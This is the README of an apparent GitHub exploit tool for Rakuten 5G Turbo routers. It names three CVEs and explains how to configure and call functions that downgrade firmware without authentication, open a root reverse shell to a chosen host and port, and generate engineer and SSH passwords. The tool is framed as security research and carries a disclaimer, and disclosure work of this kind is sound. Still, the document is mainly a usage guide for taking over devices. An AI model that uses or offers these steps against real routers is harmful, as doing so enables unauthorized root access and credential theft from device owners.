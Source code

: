 
# Rakuten 5G Turbo - Exploit Wrapper API

## Overview

This repository provides a Python API to exploit known vulnerabilities on Rakuten 5G Turbo devices. These vulnerabilities include firmware downgrade without authentication, remote command execution, and information exposure. The project is intended for research purposes to demonstrate potential risks and improve security awareness.

<img src="https://neroteam.com/blog/pages/rakuten-5g-turbo-vulnerability/rakuten-5g-hacked.jpg?m=1722297533" alt="Rakuten 5G Turbo Exploit Wrapper API" width="600">

### CVEs Addressed:
- **[CVE-2024-47865]** - Missing Authentication for Critical Function
- **[CVE-2024-48895]** - OS Command Injection
- **[CVE-2024-52033]** - Exposure of Sensitive Information

## Prerequisites

- Python 3.x
- Required Python packages listed in `requirements.txt`

## Installation

1. Clone the repository:
    ```sh
    git clone https://github.com/0xNslabs/Rakuten5GTurboAPI
    cd Rakuten5GTurboAPI
    ```

2. Install the dependencies:
    ```sh
    pip install requests cryptography
    ```

## Usage

### Configuration

Before running any exploit, update the `device` dictionary in `main.py` with the relevant details:

```python
device = {
    "turboIp": "192.168.210.1", # Device IP
    "turboUsername": "admin", # Device username
    "turboPassword": "admin", # Device password
    "host": "192.168.210.157", # Used for reverse shell CVE-2024-48895
    "port": "33666", # Used for reverse shell CVE-2024-48895
    "apn": "rakuten.jp", # Set new APN
    "fwImage": "GA2421@230920_1.3.14.ffw", # CVE-2024-47865
}
```

### Exploiting Vulnerabilities

#### 1. Missing Authentication for Firmware Downgrade (CVE-2024-47865)
Use the `execInstallFw` function to downgrade or install firmware without authentication:
```python
response = turboApi.execInstallFw(device)
print(response)
```

#### 2. Authenticated Remote Command Injection (CVE-2024-48895)
Use the `execRevrsShell` function to execute a reverse shell as root:
```python
response = turboApi.execRevrsShell(device)
print(response)
```

### Bonus Features
- **Generate Engineer Password**: Obtain full web access with `getEngineerPassword` 
- (Note: The password is automatically updated by the device everyday at midnight):
    ```python
    response = turboApi.getEngineerPassword(device)
    print(response)
    ```
- **Generate SSH Password**: Gain SSH access via debug firmware with `getSshPassword` (only working by installing debug firmware, e.g. DG2425@2406171559_DG1.3.18.ffw):
- (Note: The password is automatically updated by the device everyday at midnight):
    ```python
    response = turboApi.getSshPassword(device)
    print(response)
    ```
    
- **Direct APN Configuration**: Update the APN via `setDeviceApn`:
    ```python
    response = turboApi.setDeviceApn(device)
    print(response)
    ```

## Write-Up
https://neroteam.com/blog/rakuten-5g-turbo-vulnerability

## Video Proof of Concept
[![Script PoC CVE-2024-47865 remote code execution](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://youtu.be/tPDwhkLjL7s)

## Disclaimer

This software is provided for educational and research purposes only. Unauthorized access to or exploitation of computer systems is illegal and unethical. The authors and contributors of this software are not liable for any misuse or damages caused by its use.
